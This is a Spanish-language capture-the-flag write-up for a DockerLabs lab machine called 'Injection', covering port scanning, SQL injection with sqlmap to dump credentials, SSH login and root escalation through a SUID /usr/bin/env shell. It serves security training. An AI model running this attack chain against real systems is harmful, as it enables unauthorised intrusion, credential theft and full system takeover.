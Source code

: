 # 🖥️ Máquina: Injection  
**Nivel:** Muy fácil  
**Objetivo:** Obtener acceso como usuario `root` mediante explotación de vulnerabilidades web y escalada de privilegios en el sistema.

---

## 🧩 Descripción

Se trata de una máquina vulnerable con una aplicación web que permite realizar una inyección SQL. El objetivo es identificar los servicios expuestos, explotar la vulnerabilidad, obtener acceso como usuario del sistema y escalar privilegios a `root`.

---

## 🛠️ Despliegue

![](/Injection/Imagenes/Logo.png)

Primero, descargamos el archivo comprimido con la máquina desde DockerLabs. Posteriormente lo descomprimimos y lo desplegamos en el entorno local utilizando los siguientes comandos:

```bash
unzip trust.zip
sudo bash auto_deploy.sh injection.tar
```

![](/Injection/Imagenes/Inicio.jpeg)

---

## 🔎 Verificación de conectividad

Se verifica que la máquina se encuentra activa realizando un `ping` a su dirección IP:

```bash
ping -c4 172.17.0.2
```

![](/Injection/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración de puertos

Se realiza un escaneo de todos los puertos (`-p-`) con `nmap`, utilizando TCP SYN scan (`-sS`) y velocidad aumentada (`--min-rate 5000`):

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:
- **22**: SSH
- **80**: HTTP

![](/Injection/Imagenes/Puertos.jpeg)

Se realiza un segundo escaneo más detallado en los puertos detectados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Este escaneo utiliza scripts por defecto (`-sC`) y detección de versiones (`-sV`) para identificar servicios y posibles vulnerabilidades asociadas.

![](/Injection/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis web manual

Al acceder al sitio web en el puerto 80 desde el navegador, se visualiza un formulario de inicio de sesión.

![](/Injection/Imagenes/Pagina.jpeg)

Como prueba inicial, se introduce un carácter de comilla simple `'` en uno de los campos del formulario. La aplicación devuelve un error, lo cual indica que probablemente esté concatenando directamente la entrada del usuario en una consulta SQL sin sanitización, mostrando **posible vulnerabilidad a inyección SQL**.

---

## 🧪 Interceptación con Burp Suite y explotación con SQLMap

La solicitud del formulario se intercepta mediante Burp Suite. Se guarda la petición HTTP en un archivo `.req` para su análisis automatizado:

![](/Injection/Imagenes/Burp.jpeg)

Luego se ejecuta `sqlmap` sobre dicha petición con opciones elevadas de detección:

```bash
sqlmap -r peticiones.req --level=5 --risk=3 --dump
```

- `-r`: especifica el archivo con la petición HTTP.
- `--level=5` y `--risk=3`: aumentan la agresividad y profundidad de las pruebas.
- `--dump`: indica que se desea extraer el contenido de las bases de datos vulnerables.

Como resultado, se obtiene una tabla con **nombres de usuario y contraseñas**.

![](/Injection/Imagenes/usuarios.jpeg)

---

## 🔐 Acceso al sistema por SSH

Con las credenciales obtenidas, se intenta acceder al sistema mediante SSH:

```bash
ssh dylan@172.17.0.2
```

El acceso es exitoso, lo que confirma que la base de datos contenía credenciales válidas para un usuario del sistema.

---

## ⬆️ Escalada de privilegios

Se busca ejecutar procesos como `root` que estén configurados con el bit SUID habilitado, lo cual permite que se ejecuten con privilegios elevados independientemente del usuario que los ejecute:

```bash
find / -perm -4000 -user root 2>/dev/null
```

Entre los binarios listados se encuentra:

```
/usr/bin/env
```

Este binario es relevante porque permite ejecutar un comando o script dentro de un entorno modificado. Cuando está marcado con el bit SUID y pertenece a `root`, se puede abusar para ejecutar una shell como `root`.

### ¿Por qué `/usr/bin/env` es útil?

El binario `env` puede ser usado para invocar un intérprete de comandos (`/bin/sh`) con privilegios elevados, debido a que:

- Tiene el bit **SUID** activo.
- Permite la ejecución de binarios arbitrarios bajo el entorno actual.
- No requiere argumentos especiales ni validación adicional.

Si el sistema no restringe esta ejecución (por ejemplo, mediante `noexec` o `secure_path`), se puede obtener una shell con privilegios de root usando:

```bash
/usr/bin/env /bin/sh -p
```

- La opción `-p` preserva los privilegios efectivos del ejecutable padre (en este caso, `root`), lo que resulta en una shell con permisos de superusuario.

Ejecución:

```bash
dylan@2bb2e0218567:/$ /usr/bin/env /bin/sh -p
# whoami
root
# exit
```

![](/Injection/Imagenes/SSh.jpeg)

---

## ✅ Conclusión

Se logró el objetivo de comprometer el sistema y obtener acceso como `root`. El proceso incluyó:

1. Enumeración de puertos expuestos (22 y 80).
2. Detección de una vulnerabilidad de inyección SQL en un formulario web.
3. Explotación de la vulnerabilidad para extraer credenciales válidas.
4. Acceso al sistema mediante SSH con dichas credenciales.
5. Escalada de privilegios abusando del binario `/usr/bin/env` con SUID activo para ejecutar una shell como `root`.

Este ejercicio demuestra la importancia de validar correctamente las entradas del usuario, así como limitar el uso de binarios con SUID innecesarios en sistemas productivos.

---

> ⚠️ **Nota:** En ciertas certificaciones como **OSCP**, **OSWE**, o entornos de evaluación restringidos, el uso de herramientas automatizadas como **Burp Suite Intruder** o **SQLMap** puede estar **estrictamente prohibido**. Estas herramientas simplifican la explotación, pero pueden ir en contra de los principios de aprendizaje, análisis manual o evaluación ética establecidos por la organización. Asegúrate siempre de revisar las políticas antes de usarlas.
